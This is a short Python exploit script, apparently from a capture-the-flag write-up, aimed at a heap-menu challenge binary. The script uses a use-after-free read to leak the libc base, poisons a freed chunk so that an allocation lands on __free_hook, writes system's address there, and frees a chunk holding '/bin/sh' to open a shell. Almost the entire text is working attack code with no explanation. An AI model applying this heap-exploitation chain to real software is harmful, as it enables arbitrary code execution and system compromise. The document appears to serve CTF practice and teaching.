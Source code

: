 ```python
def show(idx):
    cmd(3)
    ru(b"Where? ")
    sl(i2b(idx))


def edit(idx, size, data):
    cmd(4)
    ru(b"Where? ")
    sl(i2b(idx))
    ru(b"size? ")
    sl(i2b(size))
    s(data)


add(0, 0x100)
add(1, 0x100)
add(2, 0x100)
add(3, 0x520)
add(4, 0x100)

delet(1)
delet(0)
delet(3)
show(3)
libc_base = u64_ex(rn(6)) - 0x3AFCA0
lg("libc_base", libc_base)
edit(0, 0x100, p64(libc_base + libc.sym.__free_hook))


def add(idx, size):
    cmd(1)
    # ru(b"Where? ")
    sl(i2b(idx))
    # ru(b"size? ")
    sl(i2b(size))


add(5, 0x100)
add(6, 0x100)
edit(6, 0x100, p64(libc_base + libc.sym.system))
edit(5, 0x100, b"/bin/sh\x00")
delet(5)


ia()
```

---
### shall-we-play-a-game
